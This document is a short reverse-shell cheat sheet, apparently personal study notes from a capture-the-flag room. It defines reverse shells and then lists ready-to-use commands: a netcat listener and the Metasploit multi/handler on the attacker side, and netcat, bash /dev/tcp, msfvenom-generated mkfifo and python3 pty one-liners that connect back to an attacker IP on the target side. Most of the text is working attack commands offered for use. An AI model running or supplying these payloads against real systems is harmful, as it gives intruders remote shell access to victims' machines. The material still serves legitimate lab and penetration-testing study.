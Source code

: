 A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system’s vulnerabilities to initiate a shell session and then access the victim’s computer. The goal is to offer the attacker machine a shell instead of my machine requesting it from the target which would be much easier to evade firewalls.

# Useful Commands:

## On the Attacker machine

To start a netcat listener we use  the following command

```bash
sudo nc -lvnp <port-number>
```

or we can use the `exploit/multi/handler` module which is like socat and netcat, used to receive reverse shells, It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads, use the following Metasploit command to use the module:

```msfconsole
use exploit/multi/handler
```
## On the target machine

To connect to a listener and offer it a shell we can use this nc command:

```bash
 nc -e /bin/bash ip_here port_here
```

Or we can use:

```bash
 #!/bin/bash  
 bash -i >& /dev/tcp/10.2.54.112/4445 0>&1
```

 or we can use msfvenom to generate a payload, noting that the syntax should be in this format `msfvenom -p <PAYLOAD> <OPTIONS>`, and the naming convention for the payload should be like this `<OS>/<arch>/<payload>`.:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

 This would be the generated payload after using the previous command: 

```bash
mkfifo /tmp/ttlrs; nc 10.2.54.112 4444 0</tmp/ttlrs | /bin/sh >/tmp/ttlrs 2>&1; rm /tmp/ttlrs
```

 or we can use this payload which uses python3 and is very useful and handy reverse shell:

```bash
export RHOST="10.2.54.112";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# Extra:

**Important Note :** 
This note was taken from the network services - Telnet room:

The netcat reverse shell will not close target-side after you close it locally
so the program will be blocked (hanging).
The python3 shell is a lot smarter, and it will notice when it's disconnected
and stop the process.
After it stopped, it means the program is ready for the next command.

Big Thanks for Edu